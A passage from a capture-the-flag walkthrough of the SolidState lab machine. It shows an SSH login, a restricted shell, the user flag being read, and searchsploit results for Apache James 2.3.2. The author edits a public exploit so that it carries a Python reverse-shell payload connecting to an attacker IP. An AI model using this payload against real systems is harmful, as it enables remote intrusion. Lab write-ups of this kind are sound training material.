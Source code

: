 Now, we can login using the credentials `mindy:P@55W0rd1!2@`.

```bash
$ ssh mindy@solidstate.htb
mindy@solidstate:~$ id
-rbash: id: command not found
```

However, we realise we are in a `rbash` shell and we can only `cat`, `env` and `ls`.

# user.txt

The user flag is in `mindy`'s home directory.

```bash
mindy@solidstate:~$ cat user.txt
0510XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# Enumeration (2)

As I was unable to breakout of `rbash` with the current commands I have, I decided to look for alternatives. Using `searchsploit`, I found exploits relating to the version of `James` running on the machine.

```bash
$ searchsploit james 2.3.2
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File W | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution                | linux/remote/35513.py
-------------------------------------------------------------------- ---------------------------------
```

# Exploitation (1)

After copying the script for the exploit `Apache James Server 2.3.2 - Remote Command Execution`, I modified the payload that is to be executed such that a reverse shell will be executed.

```bash
$ cat 35513.py 
...
payload = 'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\''
...
```

Now, we start our `nc` listener

